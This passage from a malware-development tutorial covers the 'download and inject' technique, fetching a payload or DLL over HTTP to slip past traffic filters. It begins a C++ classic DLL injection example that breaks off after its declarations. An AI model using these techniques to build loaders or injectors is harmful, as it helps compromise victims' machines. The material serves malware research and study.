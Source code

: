 ## 32. malware development tricks. Download and inject logic. C++ example.

![injection](./images/50/2022-04-13_18-17.png){width="80%"}    

This post is the result of self-researching interesting trick in real-life malwares.    

### download and execute

*Download and execute* or in our case *download and inject* is interesting trick and designed to download payload or evil DLL from a url, with an emphasis on  `http`, and execute or inject it. The benefits to the *download/execute* (or *download/inject*) approach are that it can be used behind networks that filter all other traffic aside from HTTP. It can even work through a pre-configured proxy given that said proxy does not require authentication information.    

### practical example

First of all, let's go to consider [classic DLL injection](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html) malware. In the simplest case it will look like this:    

```cpp
/*
* classic DLL injection example
* author: @cocomelonc
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer
```